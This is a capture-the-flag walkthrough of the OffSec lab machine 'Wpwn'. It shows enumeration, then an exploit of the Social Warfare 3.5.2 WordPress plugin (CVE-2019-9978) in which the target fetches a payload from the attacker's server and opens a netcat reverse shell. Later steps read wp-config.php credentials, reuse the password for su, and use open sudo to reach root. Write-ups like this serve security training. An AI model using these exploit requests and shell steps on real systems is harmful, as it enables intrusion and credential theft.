

# Wpwn

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 5
Lab Description:
This lab challenges you to exploit a remote code execution vulnerability in the social-warfare 
WordPress plugin version 3.5.2 to gain initial access. Privilege escalation is achieved through 
user password reuse and open sudo permissions.
Released: 17 Dec 2020
```

Machine link: [https://portal.offsec.com/machine/wpwn-542/overview/details](https://portal.offsec.com/machine/wpwn-542/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ export TARGET_IP=192.168.199.123

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-19 12:58 CET
Nmap scan report for 192.168.199.123
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.98 seconds
```

We have two services running:

- OpenSSH 7.9p1 on port 22
- Apache httpd 2.4.38 on port 80

### Check the web site

Browsing manually to port 80 shows a `wpwn box Have fun! :D` message.

We can also run all HTTP-related enumeration scripts in nmap

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ nmap -v -p80 --script "http-enum*" $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-19 13:02 CET
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 13:02
Completed NSE at 13:02, 0.00s elapsed
Initiating Ping Scan at 13:02
Scanning 192.168.199.123 [4 ports]
Completed Ping Scan at 13:02, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:02
Completed Parallel DNS resolution of 1 host. at 13:02, 0.06s elapsed
Initiating SYN Stealth Scan at 13:02
Scanning 192.168.199.123 [1 port]
Discovered open port 80/tcp on 192.168.199.123
Completed SYN Stealth Scan at 13:02, 0.06s elapsed (1 total ports)
NSE: Script scanning 192.168.199.123.
Initiating NSE at 13:02
Completed NSE at 13:02, 4.17s elapsed
Nmap scan report for 192.168.199.123
Host is up (0.034s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /wordpress/: Blog
|   /robots.txt: Robots file
|_  /wordpress/wp-login.php: Wordpress login page.

NSE: Script Post-scanning.
Initiating NSE at 13:02
Completed NSE at 13:02, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.58 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (84B)
```

The `robots.txt` file contains just a red herring

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ curl http://$TARGET_IP/robots.txt       
/secret
# haha, just kidding. Focus on real stuff ma boi
```

But the blog at `http://192.168.199.123/wordpress/` contains actual data



### Check for files and folders with gobuster

Let's also check for additional files and folders with gobuster

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.199.123
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 23]
/wordpress            (Status: 200) [Size: 28022]
/robots.txt           (Status: 200) [Size: 57]
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/server-status        (Status: 403) [Size: 280]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Nothing especially new and interresting.

### Scan the Wordpress installation with WPScan

Next, we continue our enumeration with checking for Wordpress plugins

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ wpscan --url http://$TARGET_IP/wordpress/ --enumerate p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.199.123/wordpress/ [192.168.199.123]
[+] Started: Thu Feb 19 13:12:14 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.199.123/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.199.123/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.199.123/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.199.123/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5 identified (Insecure, released on 2020-08-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.199.123/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.5</generator>
 |  - http://192.168.199.123/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.5</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://192.168.199.123/wordpress/wp-content/themes/twentytwenty/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://192.168.199.123/wordpress/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 3.0
 | Style URL: http://192.168.199.123/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.5
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.199.123/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.5, Match: 'Version: 1.5'

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] social-warfare
 | Location: http://192.168.199.123/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2025-03-18T09:37:00.000Z
 | [!] The version is out of date, the latest version is 4.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Comment (Passive Detection)
 |
 | Version: 3.5.2 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://192.168.199.123/wordpress/, Match: 'Social Warfare v3.5.2'
 | Confirmed By:
 |  Query Parameter (Passive Detection)
 |   - http://192.168.199.123/wordpress/wp-content/plugins/social-warfare/assets/css/style.min.css?ver=3.5.2
 |   - http://192.168.199.123/wordpress/wp-content/plugins/social-warfare/assets/js/script.min.js?ver=3.5.2
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.199.123/wordpress/wp-content/plugins/social-warfare/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.199.123/wordpress/wp-content/plugins/social-warfare/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Feb 19 13:12:19 2026
[+] Requests Done: 4
[+] Cached Requests: 34
[+] Data Sent: 1.235 KB
[+] Data Received: 39.752 KB
[+] Memory used: 264.984 MB
[+] Elapsed time: 00:00:04
```

The `social-warfare` plugin sounds promising since it is out-of-date.

Searching for available exploits we find

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ searchsploit social wordpress     
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Social Warfare WordPress Plugin 3.5.2 - Remote Code Execution (RCE)                                                                                                        | multiple/webapps/52346.py
WordPress Plugin 2 Click Social Media Buttons 0.32.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                       | php/webapps/37178.txt
WordPress Plugin AccessPress Social Icons 1.8.2 - 'icon title' Stored Cross-Site Scripting (XSS)                                                                           | php/webapps/50515.txt
WordPress Plugin Easy Social Icons 1.2.2 - Cross-Site Request Forgery                                                                                                      | php/webapps/36161.txt
WordPress Plugin Gigya Socialize 1.0/1.1.x - Cross-Site Scripting                                                                                                          | php/webapps/34085.txt
WordPress Plugin Lanoba Social 1.0 - 'action' Cross-Site Scripting                                                                                                         | php/webapps/36326.txt
WordPress Plugin social discussions 6.1.1 - Multiple Vulnerabilities                                                                                                       | php/webapps/22158.txt
WordPress Plugin Social Media Widget by Acurax 3.2.5 - Cross-Site Request Forgery                                                                                          | php/webapps/43484.txt
WordPress Plugin Social Slider 5.6.5 - SQL Injection                                                                                                                       | php/webapps/17617.txt
WordPress Plugin Social Stream 1.5.15 - wp_options Overwrite                                                                                                               | php/webapps/39946.php
WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution                                                                                                            | php/webapps/46794.py
WordPress Plugin SocialFit - 'msg' Cross-Site Scripting                                                                                                                    | php/webapps/37481.txt
WordPress Plugin WP Symposium Pro Social Network Plugin 15.12 - Multiple Vulnerabilities                                                                                   | php/webapps/39202.txt
Wordpress Theme Accesspress Social Icons 1.7.9 - SQL injection (Authenticated)                                                                                             | php/webapps/49115.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ searchsploit -m 52346        
  Exploit: Social Warfare WordPress Plugin 3.5.2 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/52346
     Path: /usr/share/exploitdb/exploits/multiple/webapps/52346.py
    Codes: CVE-2019-9978
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/OffSec_PG/PG_Play/Easy/Wpwn/52346.py
```

The RCE exploit is made for the exact version of the plugin so it ought to work.

### Test the exploit

Next, we check and configure the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ vi 52346.py

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ cat 52346.py | grep -A5 Config
# --- Config ---
TARGET_URL = "http://192.168.199.123/wordpress"
ATTACKER_IP = "192.168.45.190"  # Change to your attack box IP
HTTP_PORT = 8000
LISTEN_PORT = 12345
PAYLOAD_FILE = "payload.txt"
```

We then create a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ nc -lvnp 12345                                                            
listening on [any] 12345 ...

```

and launch the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ ./52346.py                    
[+] Payload written to payload.txt
[+] HTTP server running at port 8000
[+] Listening on port 12345 for reverse shell...
listening on [any] 12345 ...
[+] Sending exploit: http://192.168.199.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.190:8000/payload.txt
192.168.199.123 - - [19/Feb/2026 13:27:43] "GET /payload.txt?swp_debug=get_user_options HTTP/1.0" 200 -

```

Checking the netcat listener, we now have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ nc -lvnp 12345                                                            
listening on [any] 12345 ...
connect to [192.168.45.190] from (UNKNOWN) [192.168.199.123] 60616
bash: cannot set terminal process group (526): Inappropriate ioctl for device
bash: no job control in this shell
www-data@wpwn:/var/www/html/wordpress/wp-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@wpwn:/var/www/html/wordpress/wp-admin$ 
```

### Get the user flag

Now we can start looking for the user flag

```bash
www-data@wpwn:/var/www/html/wordpress/wp-admin$ find / -type f -name local.txt 2>/dev/null
<p-admin$ find / -type f -name local.txt 2>/dev/null
/var/www/local.txt
www-data@wpwn:/var/www/html/wordpress/wp-admin$ cat /var/www/local.txt
cat /var/www/local.txt
a<REDACTED>5
www-data@wpwn:/var/www/html/wordpress/wp-admin$ 
```

Nice, so far so good.

### Upgrade the shell

Next, we want to upgrade and stabilize the shell to a TTY-shell

```bash
www-data@wpwn:/var/www/html/wordpress/wp-admin$ tty
tty
not a tty
www-data@wpwn:/var/www/html/wordpress/wp-admin$ python -c 'import pty;pty.spawn("/bin/bash")'
<dmin$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@wpwn:/var/www/html/wordpress/wp-admin$ ^Z
zsh: suspended  nc -lvnp 12345

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Wpwn]
└─$ stty raw -echo ; fg ; reset 
[1]  + continued  nc -lvnp 12345

www-data@wpwn:/var/www/html/wordpress/wp-admin$ export SHELL=bash
www-data@wpwn:/var/www/html/wordpress/wp-admin$ export TERM=xterm-256color
www-data@wpwn:/var/www/html/wordpress/wp-admin$ stty rows 200 columns 200
www-data@wpwn:/var/www/html/wordpress/wp-admin$ tty
/dev/pts/0
www-data@wpwn:/var/www/html/wordpress/wp-admin$ ^C
www-data@wpwn:/var/www/html/wordpress/wp-admin$ 
```

### Enumeration for privesc

We now enumerate the system for privilege escalation opportunities.

Checking the home directory of the only user (`takis`) we find nothing intresting

```bash
www-data@wpwn:/var/www/html/wordpress/wp-admin$ cd /home
www-data@wpwn:/home$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 Aug 17  2020 .
drwxr-xr-x 18 root  root  4096 Dec 14  2020 ..
drwxr-xr-x  2 takis takis 4096 Dec 14  2020 takis
www-data@wpwn:/home$ cd takis
www-data@wpwn:/home/takis$ ls -la
total 24
drwxr-xr-x 2 takis takis 4096 Dec 14  2020 .
drwxr-xr-x 3 root  root  4096 Aug 17  2020 ..
-rw------- 1 takis takis    0 Dec 14  2020 .bash_history
-rw-r--r-- 1 takis takis  220 Aug 17  2020 .bash_logout
-rw-r--r-- 1 takis takis 3526 Aug 17  2020 .bashrc
-rw-r--r-- 1 takis takis  807 Aug 17  2020 .profile
-rw-r--r-- 1 root  root    32 Dec 14  2020 user.txt
www-data@wpwn:/home/takis$ 
```

Checking the web directories for passwords we find `wp-config.php` with a possible password

```bash
www-data@wpwn:/var/www/html/wordpress$ cat wp-config.php 
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '$bDhwe@ aW2=HmnqU6GU:#uE.Zfk-?;_:u.Q][{Xi0Z_k,+#nxnI[TNl2YB[<[cI' );
define( 'SECURE_AUTH_KEY',  '0D#hUv0AK{@zD -S[tO/@x2ZqEUb6H~7dU}|qon*o9To(!25rn25=^RnE83}czwx' );
define( 'LOGGED_IN_KEY',    '_.sLFXmT yAhC!QUo8.NXNm]l~}1m5{uWse59w)<PML i4PQX50f{wh%(Hr|qThu' );
define( 'NONCE_KEY',        '3TG=HS42u(X7s6.WUIeQ{@P$w(:]7.]Gmtk`ZlH5.`zAmU0K},(Z^srahRcNIUQY' );
define( 'AUTH_SALT',        '<i1,O4cg-nF0$uzV08?YgCVyx/Pe!bUZ!WZ$uLfQSHW8[0:%{GRP19D.%rvA!<}P' );
define( 'SECURE_AUTH_SALT', 'qNuof_(c=U36P(7jk4#l3bKoMJA9tHz(F!U-X;wQz8,In,:8*F^WNHB}^I`0Cs][' );
define( 'LOGGED_IN_SALT',   '}%].&sH`s8IBlb+iebj*Cp8:9#ctz{Py_d_O-OkAF|K;r(IH}6P7y;v{DXG*#N>W' );
define( 'NONCE_SALT',       ':<^2H)#:@7|lQP.M2FFL!+H1M&]nri4~)^6f/u&k|Bl$!xq2)@<jeZacZ8&mrpV}' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
www-data@wpwn:/var/www/html/wordpress$ 
```

Let's try the password from `define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );` as `takis`

```bash
www-data@wpwn:/var/www/html/wordpress$ su takis
Password: 
takis@wpwn:/var/www/html/wordpress$ 
```

Success!

We check what we can do with `sudo`

```bash
takis@wpwn:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
takis@wpwn:/var/www/html/wordpress$ 
```

which apparently is everything! So why not get a shell as root!?

```bash
takis@wpwn:/var/www/html/wordpress$ sudo bash
root@wpwn:/var/www/html/wordpress# id
uid=0(root) gid=0(root) groups=0(root)
root@wpwn:/var/www/html/wordpress# 
```

### Get the root flag

Finally, we get the root flag

```bash
root@wpwn:/var/www/html/wordpress# cd /root
root@wpwn:~# ls -l
total 8
-rw------- 1 root root 33 Feb 19 06:57 proof.txt
-rw-r--r-- 1 root root 32 Dec 14  2020 root.txt
root@wpwn:~# cat proof.txt 
d<REDACTED>d
root@wpwn:~# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [robots.txt - Wikipedia](https://en.wikipedia.org/wiki/Robots.txt)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
- [WordPress - Wikipedia](https://en.wikipedia.org/wiki/WordPress)
- [WPScan - Documentation](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)
- [WPScan - GitHub](https://github.com/wpscanteam/wpscan)
- [WPScan - Homepage](https://wpscan.com/)
